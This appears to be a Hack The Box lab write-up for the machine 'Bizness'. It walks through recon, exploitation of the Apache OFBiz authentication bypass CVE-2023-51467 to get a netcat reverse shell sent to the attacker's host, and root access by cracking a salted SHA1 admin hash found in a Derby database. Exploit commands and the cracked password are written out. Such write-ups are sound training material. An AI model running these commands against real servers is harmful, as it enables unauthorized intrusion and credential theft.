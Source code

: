 # Bizness
Hello, today we will be taking on Bizness, an easy box from HTB.
- [Recon](https://github.com/0x7ax/Bizness/tree/main?tab=readme-ov-file#recon)
- [Exploit | Initial foothold](https://github.com/0x7ax/Bizness#exploit--initial-foothold)
- [Privesc](https://github.com/0x7ax/Bizness?tab=readme-ov-file#privesc)
- [Conclusion](https://github.com/0x7ax/Bizness#conclusion)
# Recon
We start with an nmap scan:

`$ nmap -sC -sV -oN nmap/Bizness 10.10.11.252`

![nmap result](https://github.com/0x7ax/Bizness/assets/91915054/59b24c86-a247-457d-9b49-b92a9241043a)
Found SSH, HTTP, and HTTPS

Since we found a hostname, we can add it to /etc/hosts using the following command:

`$ sudo echo “10.10.11.252 bizness.htb” >> /etc/hosts`

Followed HTTPS, found the following on the homepage:
- Address: A108 Adam Street, NY 535022, USA
- Phone #: +1 5589 55488 55
- Email: info@bizness.htb
  
Doesn't seem to take us anywhere.

Then did a gobuster to see if there are any other directories:

`$ gobuster dir -u https://bizness.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --wildcard -k`

I used the flags “--wildcard” and “-k” to avoid errors. Oddly, the sizes were 0 but if we got a redirection then that means we got a valid directory.

Furthermore, we found a /webtools directory that isn't default on all sites, so we can check it out

Turns out it's an Apache OFBiz portal with the version down on the right (18.12)

![OFBiz portal](https://github.com/0x7ax/Bizness/assets/91915054/07a3e27b-7ae1-488d-ae14-52bd9cd5101e)

A quick Google search tells us that it's vulnerable to CVE-2023-51467, which is an interesting vulnerability that will grant us RCE. Feel free to read about it more [here](https://nvd.nist.gov/vuln/detail/CVE-2023-51467)

# Exploit | Initial foothold

I found an exploit online that will run a command on the infected service, hoping that I can get a reverse shell back 

I used [exploit.py](exploit.py), creds go to the owner. 

*Change to your desired ip and port*

- Set up a listener

`$ nc -lvnp [port]`

- Run the following command

`$ python3 exploit.py --url https://bizness.htb --cmd "nc -c sh [ip] [port]"`

![exploit](https://github.com/0x7ax/Bizness/assets/91915054/b63c4476-d35a-46b2-b7f8-dcf9de4b8caa)

We got a reverse shell! Now we have to stabilize it

`$ python3 -c ‘import pty;pty.spawn("/bin/bash")’`

Ctrl+Z

`$ stty raw -echo`

`$ fg` (click Enter twice here)

`$ export TERM=xterm`

Now, you have a full shell.

![stable](https://github.com/0x7ax/Bizness/assets/91915054/cc9eb29b-ce87-4b0a-ae0f-ad475c522e57)

We have spawn in /opt/ofbiz, which is an interesting directory, but first let's grab user.txt from /home/ofbiz

a quick command tells us that only ofbiz and root have shells so it only makes sense that ofbiz has the user.txt file

`$ cat /etc/passwd | grep bash`

![user.txt](https://github.com/0x7ax/Bizness/assets/91915054/1f0479a0-c4b8-40dc-b0fe-af927b5a9e38)

# Privesc

First, I ran linpeas.sh, which didn't tell me much except for the files in /opt/ofbiz

So I digged deeper and found an interesting file that has a SHA1 hash. 

![AdminUserLoginData.xml](https://github.com/0x7ax/Bizness/assets/91915054/7111be9a-b8c2-45e8-bf11-bf7bf56f4c0b)

We found a SHA1 hash: 47ca69ebb4bdc9ae0adec130880165d2cc05db1a

The problem with that hash is that it needs a salt which doesn't appear in the file

With more recon, we found a derby database which has the salt for the hash above

![derby database](https://github.com/0x7ax/Bizness/assets/91915054/b3e88449-f7be-442b-a060-25044556f1e5)

We can see that the hash for user admin is $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

We can crack this using john or hashcat, but a more effiecient way would be to use a script that encrypts the contents of rockyou.txt and compare it to the string we have

For that I used the following python script which I found online: [pass.py](pass.py)

![pass.py](https://github.com/0x7ax/Bizness/assets/91915054/9883b0a3-0794-4eec-880a-b26041ff0c44)

 We got a hit, *monkeybizness*
 
 Use the following command and enter the password above to privesc to root
 
 `$ su root` 
 
 ![root](https://github.com/0x7ax/Bizness/assets/91915054/b34f5cf9-b38d-45e1-b00a-dd132ac78d69)
 
# Conclusion
Bizness was an easy HTB box that has a vulnerable OFbiz platform which leads to RCE. 

This is for educational purposes only
